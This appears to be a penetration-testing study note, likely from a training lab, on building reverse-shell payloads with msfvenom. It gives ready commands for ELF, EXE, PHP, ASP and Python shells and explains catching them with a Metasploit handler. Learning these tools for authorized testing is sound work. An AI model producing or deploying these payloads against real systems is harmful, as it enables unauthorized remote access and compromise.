 # Other Payloads

- Based on the target system's configuration (operating system, install webserver, installed interpreter, etc.), msfvenom can be used to create payloads in almost all formats. 

- Below are a few examples you will often use:

## 1. Linux Executable and Linkable Format (elf)

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```

- The `.elf` format is comparable to the `.exe` format in Windows. These are ***executable files*** for ***Linux***. 

- However, you may still need to make sure they have executable permissions on the target machine. 

- For example, once you have the `shell.elf` file on your target machine, use the `chmod +x shell.elf` command to accord executable permissions. 

- Once done, you can ***run*** this file by typing `./shell.elf` on the target machine command line.

## 2. Windows

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```

## 3. PHP

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```

## 4. ASP

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```

## 5. Python

```
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

#

- In all the above examples, `LHOST` will be the `IP address` of your ***attacking machine***, and `LPORT` will be the port on which your ***handler*** will listen. 

- All of the examples above are `reverse payloads`. 

- This means you will need to have the `exploit/multi/handler` module listening on your attacking machine to work as a handler. 

- You will need to set up the handler accordingly with the payload, `LHOST` and `LPORT` parameters. 
These values will be the same you have used when ***creating the msfvenom payload***.



